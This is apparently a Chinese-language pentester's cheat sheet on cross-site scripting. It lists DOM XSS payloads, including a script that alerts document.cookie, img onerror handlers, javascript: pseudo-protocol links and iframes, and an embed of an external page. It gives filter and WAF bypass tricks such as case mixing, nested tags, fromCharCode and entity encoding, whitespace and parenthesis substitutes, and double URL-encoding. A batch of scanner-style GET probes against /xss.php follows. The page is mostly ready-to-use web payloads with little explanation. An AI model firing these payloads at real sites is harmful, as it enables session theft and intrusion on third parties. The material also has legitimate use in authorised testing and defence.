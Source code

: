通过注入，能运行js，则存在。


## **手工测试dom型XSS:**
```
<script>alert(document.cookie)</script>
<script>alert(1)</script>
<img src="1" onerror="">
<img src="1" onerror="alert(1)"> 
<img src=x onerror=alert(233)>




<iframe src=javascript://%0aalert('iframe')>
<embed src="https://c0olw.github.io/pic/1.html">
<audio src=x onerror=confirm("casrc")> 

伪协议：
<iframe src="javascript:alert(111)"></iframe>  //火狐/IE/谷歌都支持
<a href="javascript:alert(111)">aaa</a>
如果在a标签中可以用伪协议绕过。



F12分析前端源码，猜测后端代码
构建dom：
标签闭合
value中的值”闭合
//注释去掉后面
有实体化编码，判断是不是只实体化了",没有实体化'

“><a hrerf="javascript:alert(1)"> <
```


## **绕过黑名单/WAF注入XSS:**
<https://xz.aliyun.com/t/4067?time__1311=n4%2BxnD0DyGYQqxmw405%2BbWe4iKq0K%3DNPG8eD>
关键词输入被过滤：
```
过script,用<img> <Script> <sscriptcript> 
过alert,用prompt(),comfrim()

使用string.fromCharCode()编码后，在用函数解码
```

hackbar工具混淆：
```
对字母进行html编码绕过检测
如：javascript->&#106;....
```

空格输入被过滤:
```
用%0d(回车) %0a(换行) %0c代替
```

括号()输入被过滤:
```
用` `代替，如：alert`1`
```

BP中有各种xss一句话，可用于绕过/报告用
![](.topwrite/assets/image_1709294242750.png)




```
GET /xss.php?name=HttP://bxss.me/t/xss.html?%00
GET /xss.php?name=test'"()&%<acx><ScRiPt >HS1L(9479)</ScRiPt>
GET /xss.php?name='"()%26%25<acx><ScRiPt%20>QZWL(9781)</ScRiPt>
GET /xss.php?name=bxss.me/t/xss.html?%00
GET /xss.php?name=test9565139 
GET /xss.php?name=test9565139<
GET /xss.php?name=acu7581%EF%BC%9Cs1%EF%B9%A5s2%CA%BAs3%CA%B9uca7581
GET /xss.php?name=acux3233%C0%BEz1%C0%BCz2a%90bcxuca3233
GET /xss.php?name={{49286*49078}}
GET /xss.php?name=test9279'();}]9817
GET /xss.php?wvstest=javascript:domxssExecutionSink(1,"'/"%3E%3Cxsstag%3E()locxss")
GET /xss.php?name=%2574%2565%2573%2574%2539%2537%2535%2530%2527%2528%2529%253B%257D%255D%2539%2534%2538%2538    # 两次 urlencode
GET /xss.php?name=test</script><script>V5vL(9783)</script>
GET /xss.php?name=test<W7PZRN>WTTZZ[!%2B!]</W7PZRN>
```

